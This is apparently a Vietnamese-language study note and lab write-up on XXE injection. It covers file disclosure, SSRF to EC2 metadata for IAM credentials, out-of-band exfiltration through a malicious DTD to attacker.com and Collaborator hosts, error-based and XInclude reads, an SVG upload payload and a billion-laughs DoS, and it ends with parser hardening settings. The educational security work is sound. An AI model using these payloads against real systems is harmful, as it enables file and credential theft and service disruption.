# XML external entity (XXE) injection

**Định nghĩa:** 

XXE là một lỗ hổng bảo mật xảy ra khi một ứng dụng XML parser không cấu hình đúng cho phép người dùng chèn các thực thể bên ngoài (external entities). Điều này có thể bị lợi dụng để truy xuất dữ liệu nội bộ, thực hiện SSRF, DoS, hoặc thực thi mã từ xa trong một số trường hợp.

**Nguyên nhân:**

- Ứng dụng xử lý đầu vào XML của người dùng mà không vô hiệu hóa các thực thể bên ngoài (External Entities).
- Parser XML cũ hoặc cấu hình không an toàn (ví dụ: sử dụng `DocumentBuilderFactory` mà không tắt `external general entities` và `external parameter entities`).

**Tác động:**

- Rò rỉ dữ liệu nội bộ (ví dụ: `/etc/passwd`)

- SSRF (Server-Side Request Forgery): gửi yêu cầu từ máy chủ đến hệ thống nội bộ

- Tấn công từ chối dịch vụ (DoS) thông qua "billion laughs attack"

- Thực thi mã từ xa (trong trường hợp parser cực kỳ nguy hiểm)

  

**Các kỹ thuật tấn công:** 

###  **1. File Disclosure (Tiết lộ tệp tin hệ thống)**

**Mục tiêu:** Đọc các tệp nhạy cảm trên hệ thống máy chủ
**Payload ví dụ:**

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
```

------

### **2. SSRF thông qua XXE (Server-Side Request Forgery)**

**Mục tiêu:** Dùng parser XML để gửi HTTP request đến các địa chỉ nội bộ
**Payload ví dụ:**

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://localhost:8080/admin">]>
<foo>&xxe;</foo>
```

------

### 3. Out-Of-Band (OOB) Data Exfiltration**

**Mục tiêu:** Gửi dữ liệu nhạy cảm từ máy chủ về máy của kẻ tấn công
**Kỹ thuật nâng cao, thường dùng khi không thấy phản hồi trực tiếp.**
 **Payload ví dụ:**

```xml
<!DOCTYPE foo [ 
  <!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd">
  %xxe;
]>
```

Ở file `evil.dtd` trên server của attacker:

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
%exfil;
```

------

### **4. Denial of Service (DoS) - Billion Laughs Attack**

**Mục tiêu:** Làm parser XML bị treo hoặc sử dụng quá nhiều tài nguyên
**Payload ví dụ:**

```xml
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;">
]>
<lolz>&lol3;</lolz>
```

------

### **5. Remote File Inclusion (Inclusion từ HTTP)**

**Mục tiêu:** Parser XML tải nội dung từ một URL do attacker chỉ định
**Lưu ý:** Tùy thuộc vào parser cho phép `http://` trong ENTITY
**Payload ví dụ:**

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com/payload.txt">]>
<foo>&xxe;</foo>
```

------

### **6. Remote Code Execution (RCE) - hiếm**

**Chỉ xảy ra nếu hệ thống combine XXE với tính năng xử lý đối tượng hoặc dùng deserialization**
=> Trường hợp hiếm và phụ thuộc vào cấu trúc backend.


**Phân loại XXE theo cách thức hoạt động:**

| Phân loại                     | Mô tả                                                        | Ví dụ                 |
| ----------------------------- | ------------------------------------------------------------ | --------------------- |
| **In-Band XXE**               | Kết quả trả về trực tiếp trong response                      | `file:///etc/passwd`  |
| **Out-of-Band XXE (OOB-XXE)** | Kết quả gửi đến attacker qua HTTP/FTP                        | `http://attacker.com` |
| **Blind XXE**                 | Không có phản hồi trực tiếp, dùng đo thời gian hoặc quan sát side effect | Trigger SSRF nội bộ   |

**Cách phòng tránh:** 

- Vô hiệu hóa external entities và DTD (tùy vào thư viện XML đang dùng):

  -Java:

```java
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

​	-Python (defusedxml)

- Dùng thư viện parser an toàn: `defusedxml` (Python), `javax.xml.parsers.SAXParserFactory` cấu hình đúng (Java).

- Không xử lý XML nếu không cần thiết.

- Validate và sanitize đầu vào.

- Thực hiện tách biệt network layer nếu có SSRF thông qua XXE.

  

**Common Payload:**

Link: ...

#### Đọc file:

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
```

#### SSRF:

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://localhost:8080">]>
<foo>&xxe;</foo>
```

#### Out-of-band (OOB) exfiltration:

```xml
<!DOCTYPE foo [
<!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd">
%xxe;
]>
```


## Apprentice: 

### Lab 1: 

Lab des: 

- Chức năng Check stock nhận vào một payload XML.
- Ứng dụng parse XML nhưng không kiểm soát ENTITY => dễ bị XXE.
- Mục tiêu: Đọc nội dung file `/etc/passwd` từ hệ thống server.

Steps: 

**Truy cập chức năng Check stock**

- Truy cập một trang sản phẩm bất kỳ.
- Nhấn **"Check stock"**.
- Dùng **Burp Suite** để **intercept** request đó.



**Thêm khai báo ENTITY để đọc file hệ thống**

Thêm đoạn payload trước phần `<stockCheck>`:

```
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

Sau đó sửa nội dung thành:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Gửi request và kiểm tra:


### 


### Lab 2: Exploiting XXE to perform SSRF attacks

Lab des: Khai thác XXE để thực hiện SSRF truy vấn đến EC2 metadata service (`http://169.254.169.254/`) và lấy IAM SecretAccessKey.

Steps: 

Payload truy cập metadata service: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```



Response trả về lần lượt các folder endpoint trong metadata service: 



Tiếp tục như vậy, ta có được full api endpoint: 

```
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```






## Practice: 

### Lab1: Blind XXE with out-of-band interaction

Lab des: Khai thác lỗ hổng Blind XXE bằng cách khiến ứng dụng thực hiện truy vấn DNS/HTTP tới Burp Collaborator (out-of-band interaction). 

Steps: 

Payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://4ej83xfv9f0jx38waja4htf3puvljb70.oastify.com"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```






### Lab 2: Blind XXE with out-of-band interaction via XML parameter entities

Lab des: Khai thác lỗ hổng Blind XXE dù ứng dụng:

- Không phản hồi bất thường,
- Chặn external entity thông thường,
- Nhưng vẫn xử lý parameter entity.

Steps:

Payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
  <!ENTITY % xxe SYSTEM "http://g0hkp917vrmvjfu8wvwg351fb6hx5otd.oastify.com"> %xxe; ]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>

```



`<!ENTITY % xxe SYSTEM "...">` là parameter entity.

`%xxe;` khi được parser xử lý sẽ tải nội dung từ Burp Collaborator, gây ra OOB interaction.

Dù block entity dạng thường (`&xxe;`), nhiều parser vẫn xử lý parameter entity (`%xxe;`).




### Lab 3: Exploiting blind XXE to exfiltrate data using a malicious external DTD

Lab des: 

Lợi dụng Blind XXE và external DTD để:

- Đọc nội dung `/etc/hostname`,
- Gửi dữ liệu ra ngoài (exfiltration) tới Burp Collaborator.

Steps: 

Tạo malicious DTD trên Exploit Server:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://2226rv3txdohl1wuyhy25r31dsjj7bv0.oastify.com/?x=%file;'>">
%eval;
%exfil;
```

> `&#x25` là ký tự `%` được mã hóa (XML encoding), cần thiết để parser xử lý `<!ENTITY % exfil ...>` đúng cách.

Sau khi store, nhấn **"View exploit"** và **copy URL** của DTD:

```
https://exploit-0a3c00b204d4513a80d40c0b01bc0010.exploit-server.net/exploit
```

Sửa payload request: 

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "https://exploit-0a3c00b204d4513a80d40c0b01bc0010.exploit-server.net/exploit">
  %xxe;
]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>

```



request to burp collab chính là kết quả đọc file /etc/hostname, submit to solve the lab: 




### Lab 4: Exploiting blind XXE to exfiltrate data using a malicious external DTD

Lab des:

- Lợi dụng external DTD để đọc file.
- Dùng nó làm một phần của đường dẫn file không hợp lệ, để trigger error message chứa nội dung file.

Steps: 

Tạo DTD độc hại trên exploit server:

1. Click **"Go to exploit server"**.
2. Trong phần "Body":

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

> - `%file`: đọc nội dung `/etc/passwd`.
>
> - `%eval`: tạo entity `exfil` chứa nội dung đó trong một đường dẫn file lỗi (`file:///invalid/CONTENT-HERE`).
> - `%exfil`: sử dụng entity này để trigger lỗi hiển thị nội dung file trong thông báo lỗi.

**"View exploit"** và ghi lại URL, ví dụ:

```
https://exploit-0a30006f035b6de280ffd5e801e600f1.exploit-server.net/exploit
```

------

Gửi payload tới XML parser

1. Vào trang sản phẩm bất kỳ → nhấn "Check stock".
2. Bắt request `POST /product/stock` bằng **Burp Intercept**.
3. Sửa phần đầu XML như sau:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "https://exploit-0a30006f035b6de280ffd5e801e600f1.exploit-server.net/exploit">
  %xxe;
]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

**Quan sát lỗi trả về**

Sau khi gửi request:

- Ứng dụng sẽ cố truy cập `file:///invalid/<nội-dung-/etc/passwd>`.

- Vì đó là đường dẫn **sai**, ứng dụng có thể hiện lỗi như:

  ```
  File not found: /invalid/root:x:0:0:root:/root:/bin/bash
  ```

Nội dung `/etc/passwd` sẽ hiển thị trực tiếp trong thông báo lỗi!





### **Lab 5: Exploiting XInclude to retrieve files**

Lab des: 

Đây là một bài lab khai thác XInclude Injection – một kỹ thuật khai thác XML parser hỗ trợ XInclude, dùng để *chèn file hệ thống* vào XML khi không thể dùng DTD để thực hiện XXE truyền thống.

Đọc nội dung file `/etc/passwd` bằng cách chèn payload XInclude vào phần `productId`.

Steps:

Thay giá trị trường productId =:

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///etc/passwd" parse="text"/>
</foo>
```

Giải thích payload: 

| Thành phần                  | Giải thích                                                   |
| --------------------------- | ------------------------------------------------------------ |
| `<foo>`                     | Một element "giả" để gói payload, vì server có thể yêu cầu XML phải hợp lệ. |
| `xmlns:xi="..."`            | Khai báo namespace XInclude. Bắt buộc để trình phân tích XML hiểu `xi:include`. |
| `<xi:include>`              | Thành phần XInclude dùng để nhúng nội dung từ file ngoài.    |
| `href="file:///etc/passwd"` | Đường dẫn đến file cần đọc.                                  |
| `parse="text"`              | Đọc file dưới dạng văn bản thô (nội dung text), chứ không phải XML. |






### Lab 6: Exploiting XXE via image file upload

**Lab des:** 

Bài lab này khai thác một kiểu XXE thông qua upload file SVG, cụ thể là ảnh đại diện (avatar) xử lý bởi thư viện Apache Batik. Đây là một XXE reflected (non-blind), cho phép nhìn thấy ngay dữ liệu đọc được từ file nội bộ hệ thống.

Tải lên một file SVG chứa payload XXE.

Nội dung file `/etc/hostname` sẽ được hiển thị ngay trong phần ảnh.

Ghi lại giá trị hostname đó và submit.

**Steps:** 

Tạo file SVG chứa payload XXE:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px"
     xmlns="http://www.w3.org/2000/svg"
     xmlns:xlink="http://www.w3.org/1999/xlink"
     version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

> 💡 **Giải thích**:
>
> - `<!ENTITY xxe SYSTEM "file:///etc/hostname">`: định nghĩa entity `xxe` chứa nội dung của file hệ thống.
> - `<text>...</text>`: hiển thị nội dung đó dưới dạng text trong ảnh SVG.
> - `Apache Batik` sẽ parse SVG theo chuẩn XML và thực hiện entity expansion, dẫn đến lộ dữ liệu.

------

Gửi comment và tải ảnh lên:

1. Truy cập bất kỳ **bài blog** nào trong lab.
2. Điền comment (bất kỳ) vào form bình luận.
3. Trong phần **Upload avatar**, chọn file `avatar.svg` vừa tạo.
4. Gửi comment.

------

Xem lại comment:

- Sau khi bình luận thành công, trang sẽ hiển thị lại comment kèm ảnh avatar.
- Bạn sẽ **thấy rõ nội dung file `/etc/hostname`** hiển thị trong ảnh SVG, 



`d69a4e35ca14`




